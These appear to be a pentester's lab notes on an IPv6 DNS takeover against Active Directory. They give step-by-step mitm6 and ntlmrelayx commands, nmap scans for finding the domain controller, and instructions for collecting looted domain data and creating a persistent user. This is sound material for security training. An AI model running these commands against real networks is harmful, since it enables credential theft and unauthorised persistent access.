 mitim6 (search for dirk jan m)

# mitm6:
```
mitm6 -d (domain to attack like marvel.local)
then use:
python3 ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakepad.marvel.local -l lootme
```



## IPv6: mitm6
1. install from github
```
cd /opt; git clone https://github.com/fox-it/mitm6.git; cd mitm6
```
2. get Domain Controller IP 
Domain controllers will show port 389 running the Microsoft Windows AD LDAP service:
```
nmap -p389 -sV <IP-range>           # faster but may not return results if the server is blocking pings
nmap -p389 -sV -Pn <IP-range>       # slower but more accurate
```
Expected Output:
```
PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: MARVEL.local0., Site: Default-First-Site-Name)
MAC Address: CC:2F:71:3A:CE:3D (Intel Corporate)
Service Info: Host: HYDRA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
OR:
```
nmap -p 389 -T4 -A -v --script ldap-rootdse <IP-range>
```
3. get Domain name using nmap
```
nmap --script smb-enum-domains.nse -p445 <host>
sudo nmap -sU -sS --script smb-enum-domains.nse -p U:137,T:139 <host>
```
OR:
```
nmap --script smb-os-discovery.nse -p445 127.0.0.1
sudo nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 127.0.0.1
```

4. run mitm6
```
sudo python mitm6.py -d <domain>.local
```

5. run ntmlrelayx.py at the same time
Download from: https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ntlmrelayx.py
```
python3 ntmlrelayx.py -6 -t ldaps://<DC-IP> -wh fakewpad.<domain>.local -l lootme
```
6. check on results:
all captured info will be saved to lootme folder in the directory you ran this command. when someone logs in to a computer on the network this will try to create a user and acl for persistent access. 
```
firefox ./lootme/domain_users.html
```
Always check for passwords in the description. 

